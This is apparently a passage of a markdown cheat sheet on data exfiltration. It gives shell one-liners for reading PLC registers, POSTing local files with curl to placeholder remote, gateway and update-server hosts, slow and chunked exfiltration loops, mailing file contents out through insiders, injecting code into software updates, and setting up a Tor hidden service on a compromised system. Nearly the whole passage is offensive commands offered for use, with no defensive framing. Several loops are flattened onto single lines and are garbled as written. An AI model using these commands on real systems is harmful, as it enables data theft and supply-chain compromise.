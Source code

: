 #### Industrial IoT Devices
- **Exfiltrate Data from a PLC (Programmable Logic Controller):**
	```bash
	modpoll -m tcp -t 4:hex -r 100 -c 1 <plc_ip>
	```
- **Send Data to an IoT Gateway:**
	```bash
	curl -X POST -d @/path/to/local_file http://<iot_gateway_ip>/data
	```

# Data Exfiltration via Advanced Persistent Threat (APT) Techniques

#### Supply Chain Attacks
- **Inject Malicious Code into a Software Update:**
	```bash
	sed -i 's/old_code/new_code/g' /path/to/software_update
	```
- **Exfiltrate Data via Compromised Update Servers:**
	```bash
	curl -X POST -d @/path/to/local_file http://<update_server_ip>/upload
	```

#### Insider Threats
- **Automate Data Exfiltration Using Insiders:**
	```bash
	echo "Exfiltrating data" > /tmp/data.txt for email in $(cat insider_list.txt); do     echo "Data: $(cat /path/to/local_file)" | mail -s "Important" $email done
	```

#### Long-Term Stealth
- **Use Slow Data Exfiltration Techniques:**
	```bash
	while read -r line; do     sleep 300     curl -X POST -d "data=$line" http://<remote_ip>/upload done < /path/to/local_file
	```
- **Exfiltrate Data in Small Increments Over Time:**
	```bash
	split -b 1M /path/to/local_file part_ for part in part_*; do     curl -X POST -d @$part http://<remote_ip>/upload     sleep 600 done
	```

#### Exfiltration with Tor (Using Hidden Services)
- **Create a Tor hidden service for exfiltration:**
	- **Install Tor** and configure it to run a hidden service on the compromised system.
		```bash
		apt-get install tor
		echo "HiddenServiceDir /var/lib/tor/hidden_service/" >> /etc/tor/torrc
		echo "HiddenServicePort 80 127.0.0.1:8080" >> /etc/tor/torrc
		systemctl restart tor
		```
	- **Use the `.onion` address to access the service** and transfer files.